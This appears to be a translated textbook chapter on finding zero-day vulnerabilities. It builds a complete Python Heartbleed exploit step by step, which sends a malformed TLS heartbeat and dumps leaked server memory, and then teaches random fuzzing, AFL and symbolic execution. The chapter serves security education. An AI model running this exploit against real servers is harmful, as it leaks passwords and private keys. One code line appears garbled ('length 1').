








## **9

**为零日漏洞进行模糊测试**

*提出正确的问题和给出正确的答案一样需要技巧。*

– 罗伯特·哈夫


如果攻击者扫描一个系统并没有找到任何已知的漏洞，会发生什么？他们仍然能获得访问权限吗？是的，但他们需要发现一个新的、未知的漏洞。这些未知的漏洞被称为*零日*漏洞，而有价值的漏洞可以卖到数百万美元。

发现一个零日漏洞通常始于发现一个软件错误。一旦黑客发现了漏洞，他们就能利用它为自己谋利。攻击者利用漏洞窃取数据、崩溃程序、控制系统并安装恶意软件。让我们从利用一个著名的漏洞开始，这个漏洞导致了使互联网瘫痪的 Heartbleed 漏洞。然后，我们将探讨发现漏洞的三种技术：模糊测试、符号执行和动态符号执行。

### **案例研究：利用 Heartbleed OpenSSL 漏洞**

*Heartbleed 漏洞*利用了一个在 OpenSSL 扩展“Heartbeat”中的软件错误。这个扩展允许客户端通过发送心跳请求消息来检查服务器是否在线。如果服务器在线，它会回复一个心跳响应消息。

在服务器将心跳请求消息存储到内存后，它会通过读取内存并返回相同的消息来响应。它使用心跳消息中声明的长度来决定应该读取多少内存并发送回去。

这里是漏洞。如果黑客发送一个心跳请求消息，其长度超过实际请求，服务器会在响应中包含其内存的其他部分，其中可能包含敏感信息。图 9-1 展示了这一点。



*图 9-1：Heartbleed 漏洞概述*

黑客能够读取服务器内存的内容，其中包括密码和私钥。这种攻击被称为*缓冲区过度读取*，因为我们可以读取超出指定内存缓冲区的内容。类似地，在缓冲区溢出攻击中，黑客利用漏洞写入超出指定缓冲区的内容。黑客常常利用缓冲区溢出攻击上传反向 shell，允许他们远程控制机器。这个过程被称为*远程代码执行（RCE）*。

为什么我们不能通过使所有心跳消息为固定长度来修复这个漏洞呢？因为心跳消息还会测量客户端到服务器路径的*最大传输单元（MTU）*。MTU 是沿着该路径发送的数据包的最大大小。数据包在网络中传输时，会经过一系列路由器。根据路由器的设计，每个路由器只能处理一定大小的数据包。如果路由器收到一个大于其 MTU 的数据包，它会将数据包拆分成更小的数据包，这个过程称为*分片*。这些分片的数据包在到达服务器时会重新组装。通过发送不同长度的心跳请求消息来探测网络，客户端可以发现 MTU 以及其路径，从而避免分片。

#### ***创建利用工具***

在你发现漏洞之后，接下来的问题就是如何利用它为自己谋取利益。利用漏洞是一个复杂的过程，因为编写你自己的利用工具需要对系统有深入的理解。你发现的漏洞很可能特定于某个特定的软件版本，所以你编写的利用工具也必须针对该软件版本。如果软件开发者修复了这个漏洞，你将无法再利用它。这也是国家行为者对其能力保持高度保密的原因之一。漏洞的知识使得对手能够修复它，修复后国家行为者的利用工具将不再有效。这个循环持续着：旧的漏洞被修复，新的漏洞被发现。

Heartbleed 漏洞存在于 TLS 1.3 发布之前，因此 Heartbleed 攻击期间交换的 TLS 消息符合 TLS 1.2 协议。图 9-2 展示了攻击过程中交换的消息。



*图 9-2：客户端和服务器在 Heartbleed 攻击期间交换的消息*

客户端通过发送*Client Hello*消息来发起连接，服务器则通过多个消息进行响应，最后以*Server Done*消息结束。一旦我们收到*Server Done*消息，我们会响应一个恶意的心跳请求，随后服务器将发送一系列包含泄露信息的心跳响应。

#### ***启动程序***

让我们编写一个 Python 程序来利用 Heartbleed 漏洞。这个程序会比我们通常编写的程序要长，因此我将不展示一个完整的代码块，而是将程序分成多个部分，分别讨论每一部分。你可以通过将每一部分复制到一个名为*heartbleed.py*的文件中来重构这个程序。

在我们开始编码之前，先讨论一下漏洞利用的总体概况。我们将首先与服务器建立套接字连接。然后，我们将手动启动 TLS 连接，发送客户端*hello*消息。在发送*hello*消息后，我们将继续接收数据包，直到收到*Server Done*消息。一旦收到此消息，我们将发送一个空的心跳消息，长度为 64KB。我们选择 64KB，因为这是可能的最大长度，并且将允许我们提取最多的信息。如果服务器存在漏洞，它将以 64KB 的内存数据作出响应。由于每个心跳数据包最多只能容纳 16KB 数据，64KB 的响应将分为四个数据包发送。通过打印这些数据包的内容，我们可以读取服务器内存的部分内容。

让我们首先导入在整个过程中使用的库：

```
import sys
import socket
import struct
import select
import array
```

我们将使用命令行参数将选项传递给程序，因此我们需要`sys`库来读取这些参数。然后，我们将使用`socket`和`select`库与易受攻击的服务器建立 TCP 套接字连接。最后，我们将使用`struct`和`array`库来提取和打包我们接收的数据包中每个字段的字节。

#### ***编写客户端 Hello 消息***

接下来，我们将构造客户端的*hello*消息，这是 TLS 1.2 协议发送的第一个消息。（IETF 在 RFC 5246 中概述了 TLS 1.2 的规范。我们将使用此规范来构建本章中要发送的数据包。）图 9-3 表示*Client Hello*数据包中每个比特的布局。顶部的数字表示每个比特，从 0 到 31 编号，标签表示数据包中各字段及其位置。你常常可以在 IETF 的 RFC 文档中看到这样的图示，这些文档描述了协议。



*图 9-3：TLS 握手数据包的结构*

TLS 1.2 协议中的所有数据包都以*类型*字段开始。该字段标识发送的数据包类型。与 TLS 1.2 握手相关的所有消息都被分配为类型 0x16，表示它们是握手记录的一部分。

接下来的 16 个比特表示*TLS 版本*，值为 0x0303 表示版本 1.2。之后的 16 个比特表示*数据包长度*，即数据包的总字节长度。接下来是 8 位的*消息类型*（有关 TLS v1.2 握手过程中交换的消息类型列表，请参见图 9-2）。值为 0x01 表示*Client Hello*消息。紧接着是 24 个比特，表示*消息长度*，即数据包中剩余的字节数。然后是 16 位的*客户端 TLS 版本*，表示客户端当前运行的 TLS 版本，以及 32 位的*客户端随机数*，这是 TLS 交换过程中提供的一个随机数。

接下来的八个比特表示*Session ID Length*。Session ID 用于标识会话，并用于恢复未完成或失败的会话。我们不使用此字段，正如你将看到的，我们将其长度设置为 0x00。*Cipher Suite Length*是下一个字段的字节长度，该字段包含*Cipher Suites*。在这种情况下，我们将该字段的值设置为 0x00,0x02，表示支持的密码套件信息长为两个字节。至于客户端支持的密码类型，我们将使用值 0x00,0x2f，表示客户端支持 RSA 密钥交换，并使用 128 位 AES 和密码块链接模式进行加密（有关块密码模式的更多信息，请参见第五章）。最后 16 个比特表示*Extension Length*。我们不使用任何扩展，因此将该值设置为 0。

我们可以通过手动设置每个字节（每组八位）来构造数据包。我们将以十六进制数表示这些值。将以下代码片段复制到你的*heartbleed.py*文件中；我已经用注释标出了每个十六进制值：

```
clientHello = (

    0x16,             # Type: Handshake record

    0x03, 0x03,       # TLS Version : Version 1.2

    0x00, 0x2f,       # Packet Length : 47 bytes

    0x01,             # Message Type: Client Hello

    0x00, 0x00, 0x2b, # Message Length : 43 bytes to follow

    0x03, 0x03,       # Client TLS Version: Client support version 1.2

                      # Client Random  (Nonce)

    0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f, 0x10, 0x11, 0x00, 0x01,

    0x02, 0x19, 0x1a, 0x1b, 0x1c, 0x1d, 0x1e, 0x1f, 0x03, 0x04,

    0x05, 0x06, 0x07, 0x08, 0x09, 0x12, 0x13, 0x14, 0x15, 0x16,

    0x17, 0x18,

    0x00,             # Session ID Length

    0x00, 0x02,       # Cipher Suite Length: 2 bytes

    0x00, 0x2f,       # Cipher Suite - TLS_RSA_WITH_AES_128_CBC_SHA

    0x01, 0x00,       # Compression: length 0x1 byte & 0x00 (no compression)

    0x00, 0x00,       # Extension Length: 0, No extensions

)
```

很好，我们已经构造了*Client Hello*消息。但是在发送之前，让我们讨论一下我们将在响应中接收到的数据包结构。

#### ***读取服务器响应***

服务器将传输四个数据包，所有数据包的结构与*Client Hello*消息相似。类型、版本、数据包长度和消息类型字段出现在相同的位置。

我们可以通过检查第六个字节的*Message Type*来检测*Server Done*消息。十六进制值 0x02 表示*Server Hello*，而值 0x0b、0x0c 和 0x0e 分别表示*Server Certificate*消息、*Server Key Exchange*消息和*Server Done*消息。

我们并不关心实际建立加密连接，因此可以忽略从服务器收到的所有消息，直到收到*Server Done*消息。一旦我们收到该消息，就意味着服务器已经完成了握手的部分工作，我们现在可以发送第一个心跳消息。创建一个常量来保存表示类型*Server Done*的十六进制值：

```
SERVER_HELLO_DONE = 14 #0x0e
```

接下来，让我们编写一个辅助函数，确保我们正确接收与 TLS 数据包相关的所有字节。这个函数将使我们从套接字接收固定数量的字节。该函数将等待操作系统将字节加载到套接字的缓冲区中，然后继续从缓冲区读取，直到读取到指定数量的字节：

```
def recv_all(socket, length):

    response = b''

    total_bytes_remaining = length

    while total_bytes_remaining > 0:

     ➊ readable, writeable, error = select.select([socket], [], [])

        if socket in readable:

         ➋ data = socket.recv(total_bytes_remaining)

            response += data

            total_bytes_remaining -= len(data)

   return response
```

我们使用`select()`函数来监控套接字 ➊。在操作系统将数据写入缓冲区后，`select()`函数将解除阻塞并允许程序继续执行到下一行。`select()`函数接受三个参数，表示要监控的通信通道的列表。第一个列表包含可读的通道，第二个包含可写的通道，第三个包含应监控错误的通道。当套接字变为可读或可写，或发生错误时，`select()`函数将返回该套接字。

然后，套接字尝试从套接字缓冲区读取剩余字节 ➋。该参数表示要读取的最大字节数。如果可用字节数小于最大字节数，套接字的`recv()`函数将读取所有可用的字节。

接下来我们要编写的函数将从套接字中读取数据包，并提取其类型、版本和有效负载：

```
def readPacket(socket):

    headerLength = 6

    payload = b''

  ➊ header =  recv_all(socket, headerLength)

    print(header.hex(" "))

    if header != b'':

     ➋ type, version, length, msgType = struct.unpack('>BHHB',header)

        if length > 0:

         ➌ payload +=  recv_all(socket,length 1)

    else:

        print("Response has no header")

    return type, version,  payload, msgType
```

我们从套接字 ➊中读取六个字节（0、1、2、3、4 和 5）。这六个字节表示与 TLS 1.2 数据包相关的头字段：类型、版本、长度和消息类型。

然后，我们将使用`struct`库将字节解包成四个变量 ➋。大于符号（>）告诉`struct`库以大端格式解释这些字节。（在大端格式中，最重要的字节位于最小地址。网络数据包通常采用大端格式。）`B`告诉`struct`库提取第一个字节（8 位）作为无符号字符（值在 0 到 255 之间），而`H`告诉`struct`库提取接下来的两个字节（16 位）作为无符号短整数。我们将第一个 8 位值放入`type`变量，将接下来的两个字节放入`version`变量。然后，我们将接下来的两个字节放入`length`变量，最后一个字节放入`msgType`变量。`length`字段表示有效负载的长度。如果它大于 0 ➌，我们可以从套接字中读取与数据包相关的剩余字节。

所有消息具有类似的结构，因此我们可以重用相同的`readPacket`方法来处理所有后续接收到的数据包。

#### ***构造恶意心跳请求***

一旦收到*服务器完成*消息，我们就可以发送心跳请求。

图 9-4 表示了一个心跳包的布局。请求和响应包都遵循这个结构。第六个字节标识该包是响应包还是请求包。



*图 9-4：一个恶意心跳包*

我们的格式错误的请求消息如下所示：

```
heartbeat = (

     0x18,        # Type: Heartbeat Message

     0x03, 0x03,  # TLS Version : Version 1.2

  ➊ 0x00, 0x03,  # Packet Length : 3 bytes

     0x01,        # Heartbeat Request

  ➋ 0x00, 0x40   # Payload length 64KB

                 )
```

注意包长度 ➊（表示包中剩余字节）和有效负载长度 ➋（64KB）之间的差异。包长度不应该包括有效负载长度吗？怎么可能有效负载长度大于整个包的大小呢？

这是请求的“格式错误”部分。请记住从图 9-1 中看到的，我们指定了 64KB 的负载长度，这是我们可以在分配的 16 位中指定的最大值，但实际的负载大小为 0。

#### ***读取泄露的内存内容***

如前所述，心跳数据包的最大长度为 16KB。这意味着服务器响应的 64KB 内存将被分割成四个 16KB 的数据包。让我们编写一个函数，从套接字读取所有四个数据包，并将它们的负载合并成一个单一的 64KB 负载：

```
def readServerHeartBeat(socket):

    payload  = b''

    for i in range(0, 4):

     ➊ type, version, packet_payload, msgType =  readPacket(socket)

     ➋ payload += packet_payload

    return (type, version,  payload, msgType)
```

我们调用`readPacket()`函数四次，以读取我们预期从易受攻击的服务器获得的四个心跳响应 ➊。然后，我们将四个响应的所有负载合并成一个单一的负载 ➋。

#### ***编写利用函数***

以下代码片段实现了`exploit()`函数，该函数将发送格式错误的心跳请求并读取四个心跳响应数据包：

```
def exploit(socket):
➊ HEART_BEAT_RESPONSE = 21 #0x15

   payload = b''
➋ socket.send(array.array('B', heartbeat))

   print("Sent Heartbeat ")
➌ type, version, payload, msgType = readServerHeartBeat(socket)

   if type is not None:

      if msgType ==  HEART_BEAT_RESPONSE :

        ➍ print(payload.decode('utf-8'))

    else:

        print("No heartbeat received")

    socket.close()
```

`0x15`的类型值表示一个心跳响应数据包 ➊。接下来，我们发送格式错误的请求 ➋，然后读取四个响应数据包 ➌。最后，我们打印负载 ➍。

#### ***将所有内容结合起来***

在程序的主方法中，我们将创建套接字，发送数据包，并等待*服务器完成*响应。将以下代码复制到你的文件中：

```
def main():

     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

  ➊ s.connect((sys.argv[1], 443))

  ➋ s.send(array.array('B',clientHello))

     serverHelloDone = False

  ➌ while not serverHelloDone:

        type, version, payload, msgType  = readPacket(s)

        if (msgType == SERVER_HELLO_DONE):

            serverHelloDone = True

  ➍ exploit(s)
if __name__ == '__main__':

    main()
```

在创建了套接字之后，我们可以连接到作为命令行参数传入的 IP 地址 ➊。我们将在 443 端口连接，因为它与我们正在攻击的 TLS 协议相关联。连接后，我们通过发送*客户端 Hello*消息 ➋来启动 TLS v1.2 连接。然后，我们将监听响应消息并检查每种类型，直到收到*服务器完成*消息 ➌。最后，我们调用`exploit()`函数 ➍。

### **模糊测试**

黑客是如何发现像 Heartbleed 这样的漏洞的？正如你刚才看到的，利用这个漏洞的过程如此复杂，令人惊讶的是任何人能用高效的方法发现它。Google 甚至有一个专门的团队，叫做 Project Zero，专门负责发现零日漏洞。（如果你感兴趣，这个团队会在它的博客上发布它们发现的新漏洞，地址是* [`googleprojectzero.blogspot.com/`](https://googleprojectzero.blogspot.com/)*。）接下来，我们将讨论一些攻击者和安全研究人员用来发现像 Heartbleed 这样的漏洞的工具和技术，从一种名为*模糊测试*的测试技术开始。

模糊测试技术试图生成输入，探索程序中的所有可能路径，希望能发现一个导致程序崩溃或表现出非预期行为的路径。模糊测试最早由威斯康星大学的教授巴顿·米勒（Barton Miller）于 1988 年提出。从那时起，像 Google 和 Microsoft 这样的公司开发了自己的模糊测试工具，并使用模糊测试来测试他们的系统。

#### ***一个简化的例子***

为了理解模糊测试的基本概念，我们将从考虑以下示例函数开始，该函数最初由塔夫茨大学的 Jeff Foster 提出：

```
def testFunction(a,b,c):

   x, y, z = 0, 0, 0

   if (a):

       x = -2

   if (b < 5):

      if (not a and c):

         y = 1

      z = 2

   assert(x + y + z != 3)
```

如你所见，函数接受三个参数，`a`、`b`和`c`，只要它的内部变量（`x`、`y`和`z`）的总和不等于 3，程序就认为执行正确。如果它们的总和为 3，程序的`assert`语句将被触发，对于这个例子而言，`assert`语句代表一个关键失败。

我们作为模糊测试者的目标是引发这个失败。你能找出导致`assert`语句被触发的参数值吗？确定哪些输入会触发`assert`语句的一种方法是将程序的路径可视化为一棵树。每次遇到`if`语句时，树会分支，表示两种可能的选项：一种是分支被执行，另一种是没有执行。图 9-5 展示了前述函数的路径。



*图 9-5：测试函数执行路径的可视化*

这些路径中的一条会触发`assert`语句。考虑如果我们为`a`、`b`和`c`提供输入值 0、2 和 1 会发生什么。在 Python 中，0 等价于`False`，而非零整数被视为`True`。追踪这些输入在树中的路径。注意，这条路径将`x`设置为 0，`y`设置为 1，`z`设置为 2，从而触发了`assert`语句。

#### ***编写你自己的模糊测试器***

在上一个例子中，我们没有遇到发现有害输入的困难，但在更大的程序中，可能会有数百万条独特的路径。手动探索这些路径将非常困难。

我们能否编写一个程序来生成测试输入？一种方法是随机生成输入，并等待它们执行程序中的所有路径。这种技术被称为*随机模糊测试*。让我们编写一个基础的随机模糊测试器。我们的程序将生成随机整数值，并将这些值传递给我们的测试程序的参数。

创建一个名为*myFuzzer.py*的新文件，并添加以下内容：

```
   import random as rand

   import sys

   #-----------------------------------------
➊ #    Place Test function here

   #-----------------------------------------

   def main():

      while True:

       ➋ a = rand.randint(-200, 200)

          b = rand.randint(-200, 200)

          c = rand.randint(-200, 200)

          print(a,b,c)

          testFunction(a,b,c)

if __name__ == "__main__":

    main()
```

将之前显示的`testFunction()`函数复制到文件➊中。我们的简单模糊测试程序为每个输入变量生成一个随机整数➋。生成每个变量的随机值后，我们会在调用正在测试的函数之前，将输入打印到屏幕上。

保存文件，然后使用以下命令运行模糊测试工具：

```
kali@kali:~$ python3 myFuzzer.py
```

模糊测试工具将循环遍历随机值，直到找到一个能停止程序的值。试着将范围从 200 增加到 400。程序需要考虑的随机数越多，发现一个能导致程序崩溃的输入就需要更长时间。这是完全随机模糊测试的一个缺点。你将需要循环遍历许多无害的输入，才能发现一个有用的输入。我们将在本章后面讨论如何解决这个问题。

你可能会问：生成使程序崩溃的输入真的有那么有用吗？崩溃是发现漏洞的第一步，而攻击者通常可以利用这些漏洞。但生成使程序崩溃的数据本身也非常有用。如果你能让一个应用程序崩溃，你就能执行拒绝服务（DoS）攻击。想象一下，如果你能够发现一个输入，使得 Google DNS 服务器或一个手机塔崩溃，那将是非常有价值的。

或者考虑以下场景：一个黑客对一个连接到内联网的交通信号灯控制系统进行模糊测试。（令人惊讶的是，这类设备很常见。）黑客发现某个输入导致系统崩溃，从而禁用了它控制的所有交通信号灯。现在，他们已经发现了一种能够随意禁用交通信号灯的输入序列。这非常危险，也很好地提醒我们为什么道德黑客需要在系统部署前进行渗透测试。

#### ***美国模糊测试工具***

单纯生成随机输入似乎有点浪费，因为较大的搜索空间需要更长时间进行模糊测试。难道我们不能利用程序路径的信息来生成更有针对性、更精心设计的测试用例吗？实际上，某些模糊测试器通过插入指令来*注入*程序，以记录程序在执行时所经过的路径。这些模糊测试器试图生成新的输入，探索以前未被探索的路径。给定一组现有的测试用例，它们会通过添加或减去一些随机信息来变异输入，仅当新的测试用例探索程序中的新路径时，才会保留它们。

*美国模糊测试工具（AFL）* 就是其中一个模糊测试工具。最初由谷歌的 Michal Zalewski 编写，AFL 使用*遗传算法*来变异测试用例，并创建新的输入以测试未被探索的路径。遗传算法是一种生物启发的学习算法。它接受输入，例如 a = 0，b = 2，c = 1，然后将它们编码为向量[0, 2, 1]，类似于某人 DNA 中的基因序列，如 ATGCT。利用这些向量，模糊测试器跟踪当程序使用特定输入序列（如[0, 2, 1]）时探索的路径数量。相似的基因将探索相似的路径，从而减少探索新路径的可能性。

模糊测试器通过引入随机性来创建新的遗传输入序列，修改现有序列的值。例如，输入序列[0, 2, 1]可能变成[4, 0, 1]。在这里，遗传算法选择通过随机地加上四和减去二来变异第一个和第二个元素。遗传算法的实现通常允许程序选择变异发生的频率，并决定是进行大幅度变化还是小幅度变化。然后，将新的序列输入到程序中。如果该序列探索了新路径，则保留输入，如果没有，则删除或再变异。

你可以探索许多其他的变异策略。例如，交叉操作通过混合来自两个基因的序列来创建一个新基因。你可以在约翰·霍兰德的原始论文《遗传算法与适应》（《不确定系统的自适应控制》，1984 年）中阅读更多关于遗传算法的内容。

##### **安装 AFL**

让我们运行 AFL 来发现一个能让 `testFunction()` 函数崩溃的输入序列。你可以从 Google 的官方 GitHub 页面下载 AFL。通过运行以下命令克隆 AFL 仓库：

```
kali@kali:~$ git clone https://github.com/google/AFL.git
```

接下来，导航到 *AFL* 目录：

```
kali@kali:~$ cd AFL
```

通过运行以下命令来编译和安装程序：

```
kali@kali:~/AFL$ make && sudo make install
```

AFL 最初是为模糊 C 和 C++ 程序而设计的。AFL 通过编译源代码并对二进制文件进行插桩来实现对这些程序的模糊测试。我们不打算对 C 程序进行模糊测试，因此我们需要安装 `python-afl`，一个将 AFL 功能扩展到 Python 程序的工具。我们将使用 `pip3` 来安装该模块。如果你还没有安装 `pip`，请运行以下命令来安装：

```
kali@kali:~/AFL$ sudo apt-get install python3-pip
```

然后，通过运行以下命令安装 `python-afl`：

```
kali@kali:~/AFL$ sudo pip3 install python-afl
```

现在你已经安装了 `python-afl`，让我们用它来模糊测试测试函数。创建一个名为 *Fuzzer* 的新文件夹，并在 *Fuzzer* 文件夹中创建三个文件夹，分别命名为 *TestInput*、*App* 和 *Results*。我们将在 *TestInput* 文件夹中存储我们的测试输入文件，在 *Results* 文件夹中存储我们的模糊测试结果，并将我们要模糊测试的应用程序代码存储在 *App* 文件夹中。

##### **修改程序**

`python-afl` 模糊测试器假设测试输入是从通过 *std.in* 提供的文件中读取的，因此我们需要修改程序来实现这一点。以下程序从 *std.in* 中读取 `a`、`b` 和 `c` 的值，然后将它们从字符串转换为整数，并传递给测试函数。创建一个名为 *fuzzExample.py* 的文件，放在 *App* 文件夹中，并添加以下代码：

```
import sys
import afl
import os

#-----------------------------------------

#   Place test function here

#-----------------------------------------

def main():

 ➊ in_str = sys.stdin.read()

 ➋ a, b, c = in_str.strip().split(" ")

    a = int(a)

    b = int(b)

    c = int(c)

    testFunction(a,b,c)

if __name__ == "__main__":

 ➌ afl.init()

    main()

 ➍ os._exit(0)
```

记得将测试函数复制到注释中指定的位置。

接下来，我们从 *std.in* 中读取内容 ➊。然后，我们去除末尾的空格和换行符 ➋。我们还将这一行分割成三个变量：`a`、`b` 和 `c`。在 ➌ 处，我们指示 AFL 库通过调用 `afl.init()` 来开始对程序进行插桩。然后，我们执行主方法并在 ➍ 处退出。调用 `os._exit(0)` 是一种良好的实践，这样可以快速终止模糊测试运行，但这并非必须的。

##### **创建测试用例**

接下来，我们需要一些测试用例来传递给程序。打开终端并通过运行此命令，导航到桌面上的 *Fuzzer* 文件夹：

```
kali@kali:~$ cd ~/Desktop/Fuzzer
```

运行以下命令，在 *TestInput* 文件夹中创建一个包含 `0`、`1` 和 `1` 的 *testInput1.txt* 文件：

```
kali@kali:~/Desktop/Fuzzer$ echo "0 10 1" > TestInput/testInput1.txt
```

通过运行此命令，将这些值 *重定向* (<) 到程序中：

```
kali@kali:~/Desktop/Fuzzer$ python3 App/fuzzExample.py < TestInput/testInput1.txt
```

如果你已经正确完成了所有步骤，你的程序应该不会输出任何内容。如果有输出，请阅读错误信息，确保你仔细遵循了说明。

通过运行以下命令创建两个额外的测试文件：

```
kali@kali:~/Desktop/Fuzzer$ echo "2 5 7" > TestInput/testInput2.txt
kali@kali:~/Desktop/Fuzzer$ echo "10 10 10" > TestInput/testInput3.txt
```

##### **对程序进行模糊测试**

现在我们已经探索了代码，接下来进行模糊测试。以下是运行`py-afl-fuzz`程序的一般格式：

```
py-afl-fuzz [ options ] -- python3 /path/to/fuzzed_app
```

在对你的 Python 程序进行模糊测试之前，请禁用 AFL Fork Server 功能。这个性能优化对于 Python AFL 模糊测试工具来说是一个问题，所以请运行以下命令来停用它：

```
kali@kali:~/Desktop/Fuzzer$ export AFL_NO_FORKSRV=1
```

现在，我们可以通过运行以下命令对 Python 文件进行模糊测试：

```
kali@kali:~/Desktop/Fuzzer$ py-afl-fuzz -i TestInput/ -o Results/ -- python3 App/fuzzExample.py
```

你应该看到以下屏幕，程序在进行模糊测试时应实时更新：

```
                    american fuzzy lop 2.57b (python3)

--process timing --------------------------------------overall results ---

|        run time : 0 days, 0 hrs, 0 min, 16 sec       |  cycles done : 0    |

|   last new path : 0 days, 0 hrs, 0 min, 14 sec       |  total paths : 4    |

| last uniq crash : 0 days, 0 hrs, 0 min, 10 sec       | uniq crashes : 5    |

|  last uniq hang : none seen yet                      |   uniq hangs : 0    |

|cycle progress ---------------------map coverage -----------------------|

|  now processing : 1 (25.00%)        |    map density : 0.03% / 0.04%       |

| paths timed out : 0 (0.00%)         | count coverage : 1.00 bits/tuple     |

|stage progress --------------------|findings in depth ------------------|

|  now trying : havoc                 | favored paths : 2 (50.00%)           |

| stage execs : 68/204 (33.33%)       |  new edges on : 3 (75.00%)           |

| total execs : 577                   | total crashes : 505 (5 unique)       |
|  exec speed : 35.07/sec (slow!)     |  total tmouts : 0 (0 unique)         |

|fuzzing strategy yields -----------------------------path geometry -----|

|   bit flips : 4/32, 1/31, 0/29                      |    levels : 2        |

|  byte flips : 0/4, 0/3, 0/1                         |   pending : 4        |

| arithmetics : 1/222, 0/9, 0/0                       |  pend fav : 2        |

|  known ints : 0/19, 0/81, 0/44                      | own finds : 1        |

|  dictionary : 0/0, 0/0, 0/0                         |  imported : n/a      |

|       havoc : 0/0, 0/0                              | stability : 100.00%  |

|        trim : 20.00%/1, 0.00%                       |----------------------|

| [!] WARNING: error waitpid--------------------------|         [cpu000:103%]
```

要找到导致程序崩溃的输入文件，进入*Results*文件夹中的*Crashes*文件夹。该文件夹包含导致程序崩溃的输入文件。你会注意到像空文件和包含无效字符的文件。然而，你还应该注意到一个包含有效输入的文件，这个文件执行了之前讨论的路径，激活了断言语句。

### **符号执行**

如果我们能在不执行程序的情况下分析它，那该多好啊？*符号执行*是一种使用符号而不是实际数据对程序进行静态分析的技术。当符号执行引擎探索程序中的路径时，它构建出路径方程式，这些方程式可以被求解，从而确定何时会选择特定的分支。图 9-6 展示了我们之前探索的测试函数的路径约束。



*图 9-6：可视化测试函数执行路径和路径约束的计算树*

为了以编程方式解决这些路径约束，我们使用一种叫做*定理证明器*的工具。定理证明器可以回答这样的问题：是否存在一个`x`，使得`x` *×* 5 == 15？如果存在，`x`的值是多少？Z3 定理证明器是微软开发的一个流行证明器。关于定理证明的详细讨论超出了本书的范围，但我们将在测试程序的上下文中讨论它。

#### ***测试程序的符号执行***

定理证明器通过评估每个路径条件，帮助发现激活每个路径的输入。考虑导致故障状态的路径，如图 9-6 所示。让我们看看符号执行如何使用定理证明器来识别这是一个可达路径。

首先，符号引擎开始符号执行程序。输入`a`、`b`和`c`被替换为符号值*α*、*β*和*λ*。当引擎遇到`if`语句`if (a):`时，它会询问定理证明器是否存在一个使*α*为真值的值。如果存在，定理证明器将返回“是”。类似地，我们会询问定理证明器是否存在一个使*α*为假值的值，定理证明器也会返回“是”。这意味着符号执行引擎必须探索两个路径。

假设符号执行引擎首先探索*α*为假的路径，它会遇到另一个条件：`if (b < 5):`。这将导致一个新的路径条件，其中*α*为假，且*β*小于五。

再次，我们询问定理证明器，是否存在某个*α*和*β*的值，使得该条件为真或为假，定理证明器将返回“是”。假设我们探索了“真”的分支，符号引擎将遇到第三个也是最后一个条件：`if (not a and c):`。这将导致最终的路径约束，其中*α*为假，*β*小于五，且*λ*为真。现在我们可以要求定理证明器返回*α*、*β*和*λ*的值，使得这个路径条件为真。定理证明器很可能会返回*α* = 0，*β* = 4，*λ* = 1，这个输入恰好使我们进入失败状态。

符号执行引擎将对所有可能的路径重复这个过程，并生成一组测试用例来执行所有路径。

#### ***符号执行的局限性***

然而，定理证明器有一些无法解决的限制。考虑我们在第六章中讨论的 Diffie-Hellman 密钥交换算法。回想一下，从公钥恢复私钥需要解决离散对数问题。考虑这个最初由宾夕法尼亚大学的 Mayur Naik 提出的示例函数：

```
def test(x):

    c = q*p #Two large primes.

 ➊ if(pow(2,x) % c == 17):

        print("Error")

    else:

        print("No Error")
```

评估条件➊将需要找到一个`x`值，使得该条件为真，从而解出以下方程：

2*^x* mod *c* = 17

这等同于解决逆对数问题，目前没有人知道如何有效地解决逆对数问题。

